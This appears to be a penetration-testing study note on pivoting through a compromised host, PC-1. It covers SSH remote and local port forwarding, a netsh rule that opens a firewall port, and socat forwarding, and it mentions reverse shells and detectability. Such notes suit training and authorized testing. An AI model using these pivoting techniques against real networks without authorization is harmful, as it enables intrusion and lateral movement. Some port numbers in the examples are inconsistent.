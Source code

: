 ### SSH Remote Port Forwarding
In our example, lets assume that firewall policies block our machine from directly accessing port 3389 on the server. In this case we can use PC-1 which we have compromised to pivot to port 3389 using remote port forwarding, as this allows us to take a reachable port from the SSH client (in this case, PC-1) and project it into a **remote** SSH server (our machine).
As a result, a port will be opened in our machine that can be used to connect back to port 339 in the server through the SSH tunnel. PC-1 will, in turn, proxy the connection so that the server will see all the traffic as if it was coming from PC-1
![[Pasted image 20241102142901.png]]
In this case, to forward port 3389 on the server back to our machine, we can run on PC-1
```cmd
ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```
Establishing an SSH session from PC-1 to `1.1.1.1` (our machine) using the `tunneluser` user.
Since the `tunneluser` isn't allows to run a shell on our machine, we need to run the ssh command with the `-N` flag to prevent the client from requesting one, or the connection will exit immediately. The `-R` flag is used to request a remote port forward, and the syntax requires us to first indicate the port we will be opening at the SSH server (our machine), followed by a colon and then the IP and port of the socker we'll be forwarding (`3.3.3.3:3389`). The ports don't need to match, but they can if you want to.

### SSH Local Port Forwarding
Local port forwarding allows us to "pull" a port from an SSH server into the SSH client. In our case, this could be used to take any service available in our machine ad make it available through a port on PC-1. That way, any host that can't connect directly to our machine but can connect to PC-1 will now be able to reach our machine's services through the pivot host.
Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.
![[Pasted image 20241102145250.png]]
To forward port 80 from our machine and make it available from PC-1 we can run the following on PC-1
```cmd
ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```
Similar to the Remote Forwarding, but we now use the `-L` flag for local port forwarding. It requires us to indicate the local socket used by PC-1 to receive connections (`*:80`) and the remote socket to connect to from our machine's perspective (`127.0.0.1:80`)
Note that we use the local host IP address in the second socket, as from our machine's perspective, that's the host that holds the port 80 to be forwarded.
Since we are opening a new port on PC-1, we might need to add a firewall rule to allow for incoming connections (with `dir=in`). Admin privileges required
```cmd
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```
Once our tunnel is set up, any user pointing their browsers to PC-1 at `http://2.2.2.2:80` will see the website published by us.

## Port Forwarding With socat
In situation where SSH is not available, socat can be used to perform similar functionality. While not as flexible, socat allows us to forward ports in a much simpler way. One of the disadvantages of using socat is that we need to transfer it to the pivot host (PC-1 in our current example), making it more detectable than SSH, but it might be worth a try where no other option is available.
The basic syntax to perform port forwarding is as follows. If we wanted to open port 3389 on a host and forward any connection we receive there to port 3389 on host 3.3.3.3, we can use the following:
```cmd
socat TCP4-LISTEN:1234,fork TCP4:3.3.3.3:4321
```
The `fork` option allows socat to fork a new process for each connection received, making it possible to handle multiple connections without closing. If we don't include it, socat will close when the first connection made is finished.